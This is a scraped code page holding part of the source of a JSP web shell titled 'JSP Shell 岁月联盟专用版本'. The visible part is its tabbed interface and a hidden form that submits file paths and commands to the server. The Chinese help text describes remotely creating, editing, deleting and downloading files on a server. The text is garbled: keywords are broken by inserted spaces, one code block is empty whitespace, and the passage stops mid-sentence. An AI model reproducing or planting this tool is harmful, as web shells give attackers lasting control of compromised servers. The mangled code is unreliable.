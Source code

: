 ```php
,select,input,body{font-size:9pt;}A { TEXT-DECORATION: none }#tablist{padding: 5px 0;margin-left: 0;margin-bottom: 0;margin-top: 0.1em;font:9pt;}#tablist li{list-style: none;display: inline;margin: 0;}#tablist li a{padding: 3px 0.5em;margin-left: 3px;border: 1px solid ;background: F6F6F6;}#tablist li a:l ink, #tablist li a:visited{color: navy;}#tablist li a.current{background: #EAEAFF;}#tabcontentcontainer{width: 100%;padding: 5px;border: 1px solid black;}.tabcontent{display:none;}</style><s cript type="text/j avas cript">var initialtab=[<%=tabID%>, "menu<%=tabID%>"]////////Stop editting////////////////function cascadedstyle(el, cssproperty, csspropertyNS){if (el.currentStyle)return el.currentStyle[cssproperty]else if (window.getComputedStyle){var elstyle=window.getComputedStyle(el, "")return elstyle.getPropertyValue(csspropertyNS)}}var previoustab=""function expandcontent(cid, ao bject){if (document.getElementById){highlighttab(ao bject)if (previoustab!="")document.getElementById(previoustab).style.display="none"document.getElementById(cid).style.display="block"previoustab=cidif (ao bject.blur)ao bject.blur()return false}elsereturn true}function highlighttab(ao bject){if (typeof tabobjl inks=="undefined")collecttab l inks()for (i=0; i<tabobjl inks.length; i++)tabobjl inks[i].style.backgroundColor=initTabcolorvar themecolor=ao bject.getAttribute("theme")? ao bject.getAttribute("theme") : initTabpostcolorao bject.style.backgroundColor=document.getElementById("tabcontentcontainer").style.backgroundColor=themecolor}function collecttab l inks(){var tabobj=document.getElementById("tablist")tabobjl inks=tabobj.getElementsByTagName("A")}function do_o nload(){collecttab l inks()initTabcolor=cascadedstyle(tabobjl inks[1], "backgroundColor", "background-color")initTabpostcolor=cascadedstyle(tabobjl inks[0], "backgroundColor", "background-color")expandcontent(initialtab[1], tabobjl inks[initialtab[0]-1])}if (window.addEventListener)window.addEventListener("load", do_o nload, false)else if (window.attachEvent)window.attachEvent("o nload", do_o nload)else if (document.getElementById)window.o nload=do_o nload </s cript><s cript language="j avas cript">function doForm(action,path,file,cmd,tab,content){ document.frmCqq.action.value=action; document.frmCqq.path.value=path; document.frmCqq.file.value=file; document.frmCqq.cmd.value=cmd; document.frmCqq.tabID.value=tab; document.frmCqq.content.value=content; if(action=="del") {  if(confirm("确定要删除文件 "+file+" 吗？"))  document.frmCqq.submit(); } else {  document.frmCqq.submit();     }}</s cript><title>JSP Shell 岁月联盟专用版本</title><head><body><form name="frmCqq" method="post" action=""><input type="hidden" name="action" value=""><input type="hidden" name="path" value=""><input type="hidden" name="file" value=""><input type="hidden" name="cmd" value=""><input type="hidden" name="tabID" value="2"><input type="hidden" name="content" value=""></form><!--Top Menu Started--><ul id="tablist"><li><a href="" class="current" o nclick="return expandcontent('menu1', this)"> <%=strFileManage[languageNo]%> </a></li><li><a href="new.htm" o nclick="return expandcontent('menu2', this)" theme="#EAEAFF"> <%=strCommand[languageNo]%> </a></li><li><a href="hot.htm" o nclick="return expandcontent('menu3', this)" theme="#EAEAFF"> <%=strSysProperty[languageNo]%> </a></li><li><a href="search.htm" o nclick="return expandcontent('menu4', this)" theme="#EAEAFF"> <%=strHelp[languageNo]%> </a></li> &nbsp; <%=authorInfo[languageNo]%></ul><!--Top Menu End--><%                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                          %><DIV id="tabcontentcontainer"><div id="menu3" class="tabcontent"><br> <br> &nbsp;&nbsp; 未完成<br> <br>&nbsp;</div><div id="menu4" class="tabcontent"><br><p>一、功能说明</p><p>&nbsp;&nbsp;&nbsp; jsp 版本的文件管理器，通过该程序可以远程管理服务器上的文件系统，您可以新建、修改、</p><p>删除、下载文件和目录。对于
```